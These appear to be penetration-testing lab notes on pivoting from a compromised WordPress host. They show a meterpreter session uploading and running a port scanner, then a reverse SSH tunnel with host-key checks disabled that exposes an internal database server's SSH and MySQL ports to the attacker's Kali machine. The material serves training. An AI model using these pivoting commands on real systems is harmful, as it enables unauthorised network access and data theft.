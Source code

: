 ```bash
meterpreter > upload /home/kali/portscan.sh /tmp/portscan.sh
[*] uploading : /home/kali/portscan.sh -> /tmp/portscan.sh
[*] Uploaded -1.00 B of 151.00 B (-0.66%): /home/kali/portscan.sh -> /tmp/portscan.sh
[*] uploaded : /home/kali/portscan.sh -> /tmp/portscan.sh
meterpreter > shell
Process 2924 created.
Channel 2 created.
cd /tmp
chmod +x portscan.sh
./portscan.sh
port 22 is open
port 3306 is open
done
```

-    we see that port 22 and 3306 are open.

-    we will need to create a tunnel to allow Kali to have access to ports 22 and 3306 on the database server

-    The ssh command to accomplish this will look similar to the following:

```bash
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 kali@10.11.0.4
```

-    open up port 1122 on Kali to point to port 22 on the MariaDB host.

-    we will also open 13306 on Kali to point to 3306 on the MariaDB host.

-    If we were to run this command in a meterpreter shell, we would quickly run into a hurdle since we don’t have a fully interactive shell.

-    This is a problem since ssh will prompt us to accept the host key of the Kali machine and enter in the password for our Kali user.

-    For security reasons, we want to avoid entering in our Kali password on a host we just compromised.

-    We can fix the first issue by **passing in two optional flags to automatically accept the host key of our Kali machine**.
-    These are **UserKnownHostsFile=/dev/null** and **StrictHostKeyChecking=no**

-    The first option prevents ssh from attempting to save the host key by sending the output to **/dev/null**
-    **The second option will instruct ssh to not prompt us to accept the host key**

-    Both of these options can be set via the **-o flag**

```bash
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o  
"StrictHostKeyChecking=no" kali@10.11.0.4
```

-    we need to prevent ssh from asking us for a password, which we can do by using ssh keys

-    **We will generate ssh keys on the WordPress host**, **configure Kali to accept a login from the newly generated key** (and only allow port forwarding), and modify the ssh command one more time to match our changes
